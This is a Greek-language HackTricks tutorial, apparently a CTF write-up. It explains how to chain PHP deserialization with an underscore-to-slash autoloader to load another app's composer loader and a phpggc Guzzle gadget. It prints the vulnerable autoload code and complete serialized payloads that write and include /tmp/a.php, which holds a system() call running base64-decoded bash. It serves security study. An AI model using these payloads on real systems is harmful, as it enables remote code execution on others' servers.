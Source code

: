 # PHP - Deserialization + Autoload Classes

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Πρώτα, θα πρέπει να ελέγξετε τι είναι [**Autoloading Classes**](https://www.php.net/manual/en/language.oop5.autoload.php).

## PHP deserialization + spl\_autoload\_register + LFI/Gadget

Βρισκόμαστε σε μια κατάσταση όπου βρήκαμε μια **PHP deserialization σε μια webapp** χωρίς **καμία** βιβλιοθήκη ευάλωτη σε gadgets μέσα σε **`phpggc`**. Ωστόσο, στο ίδιο κοντέινερ υπήρχε μια **διαφορετική webapp composer με ευάλωτες βιβλιοθήκες**. Επομένως, ο στόχος ήταν να **φορτώσουμε τον φορτωτή composer της άλλης webapp** και να τον εκμεταλλευτούμε για να **φορτώσουμε ένα gadget που θα εκμεταλλευτεί αυτή τη βιβλιοθήκη με ένα gadget** από την webapp που είναι ευάλωτη σε deserialization.

Βήματα:

* Έχετε βρει μια **deserialization** και **δεν υπάρχει κανένα gadget** στον τρέχοντα κώδικα της εφαρμογής
* Μπορείτε να εκμεταλλευτείτε μια **`spl_autoload_register`** συνάρτηση όπως η παρακάτω για να **φορτώσετε οποιοδήποτε τοπικό αρχείο με κατάληξη `.php`**
* Για αυτό χρησιμοποιείτε μια deserialization όπου το όνομα της κλάσης θα είναι μέσα στο **`$name`**. **Δεν μπορείτε να χρησιμοποιήσετε "/" ή "."** σε ένα όνομα κλάσης σε ένα serialized αντικείμενο, αλλά ο **κώδικας** **αντικαθιστά** τους **υπογραμμούς** ("\_") **με κάθετους** ("/"). Έτσι, ένα όνομα κλάσης όπως `tmp_passwd` θα μετατραπεί σε `/tmp/passwd.php` και ο κώδικας θα προσπαθήσει να το φορτώσει.\
Ένα **παράδειγμα gadget** θα είναι: **`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
Αν έχετε **ανέβασμα αρχείου** και μπορείτε να ανεβάσετε ένα αρχείο με **κατάληξη `.php`**, μπορείτε να **καταχραστείτε αυτή τη λειτουργία άμεσα** και να αποκτήσετε ήδη RCE.
{% endhint %}

Στην περίπτωσή μου, δεν είχα τίποτα τέτοιο, αλλά υπήρχε μέσα στο **ίδιο κοντέινερ** μια άλλη σελίδα web composer με μια **βιβλιοθήκη ευάλωτη σε gadget `phpggc`**.

* Για να φορτώσετε αυτή τη άλλη βιβλιοθήκη, πρώτα πρέπει να **φορτώσετε τον φορτωτή composer της άλλης web εφαρμογής** (γιατί ο φορτωτής της τρέχουσας εφαρμογής δεν θα έχει πρόσβαση στις βιβλιοθήκες της άλλης). **Γνωρίζοντας τη διαδρομή της εφαρμογής**, μπορείτε να το πετύχετε αυτό πολύ εύκολα με: **`O:28:"www_frontend_vendor_autoload":0:{}`** (Στην περίπτωσή μου, ο φορτωτής composer ήταν στο `/www/frontend/vendor/autoload.php`)
* Τώρα, μπορείτε να **φορτώσετε** τον **φορτωτή composer της άλλης εφαρμογής**, οπότε ήρθε η ώρα να **`δημιουργήσετε το phpgcc`** **payload** για χρήση. Στην περίπτωσή μου, χρησιμοποίησα **`Guzzle/FW1`**, το οποίο μου επέτρεψε να **γράψω οποιοδήποτε αρχείο μέσα στο σύστημα αρχείων**.
* ΣΗΜΕΙΩΣΗ: Το **παραγόμενο gadget δεν λειτουργούσε**, για να λειτουργήσει έπρεπε να **τροποποιήσω** αυτό το payload **`chain.php`** του phpggc και να ορίσω **όλα τα χαρακτηριστικά** των κλάσεων **από ιδιωτικά σε δημόσια**. Αν όχι, μετά την αποσειριοποίηση της συμβολοσειράς, τα χαρακτηριστικά των δημιουργημένων αντικειμένων δεν είχαν καμία τιμή.
* Τώρα έχουμε τον τρόπο να **φορτώσουμε τον φορτωτή composer της άλλης εφαρμογής** και να έχουμε ένα **phpggc payload που λειτουργεί**, αλλά πρέπει να **κάνουμε αυτό στην ΙΔΙΑ ΑΙΤΗΣΗ ώστε ο φορτωτής να φορτωθεί όταν χρησιμοποιηθεί το gadget**. Για αυτό, έστειλα έναν σειριοποιημένο πίνακα με και τα δύο αντικείμενα όπως:
* Μπορείτε να δείτε **πρώτα τον φορτωτή να φορτώνεται και μετά το payload**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* Τώρα, μπορούμε να **δημιουργήσουμε και να γράψουμε ένα αρχείο**, ωστόσο, ο χρήστης **δεν μπορούσε να γράψει σε κανέναν φάκελο μέσα στον web server**. Έτσι, όπως μπορείτε να δείτε στο payload, το PHP καλεί **`system`** με κάποιο **base64** που δημιουργείται στο **`/tmp/a.php`**. Στη συνέχεια, μπορούμε να **ξαναχρησιμοποιήσουμε τον πρώτο τύπο payload** που χρησιμοποιήσαμε ως LFI για να φορτώσουμε τον composer loader της άλλης webapp **για να φορτώσουμε το παραγόμενο αρχείο `/tmp/a.php`**. Απλά προσθέστε το στο gadget αποσυμπίεσης:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**Περίληψη του payload**

* **Φόρτωση του composer autoload** μιας διαφορετικής webapp στο ίδιο container
* **Φόρτωση ενός phpggc gadget** για να εκμεταλλευτεί μια βιβλιοθήκη από την άλλη webapp (η αρχική webapp που ήταν ευάλωτη σε deserialization δεν είχε κανένα gadget στις βιβλιοθήκες της)
* Το gadget θα **δημιουργήσει ένα αρχείο με ένα PHP payload** σε /tmp/a.php με κακόβουλες εντολές (ο χρήστης της webapp δεν μπορεί να γράψει σε κανένα φάκελο καμίας webapp)
* Το τελικό μέρος του payload μας θα χρησιμοποιήσει **να φορτώσει το παραγόμενο php αρχείο** που θα εκτελέσει εντολές

Χρειαζόμουν να **καλέσω αυτή τη deserialization δύο φορές**. Στις δοκιμές μου, την πρώτη φορά το αρχείο `/tmp/a.php` δημιουργήθηκε αλλά δεν φορτώθηκε, και τη δεύτερη φορά φορτώθηκε σωστά.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
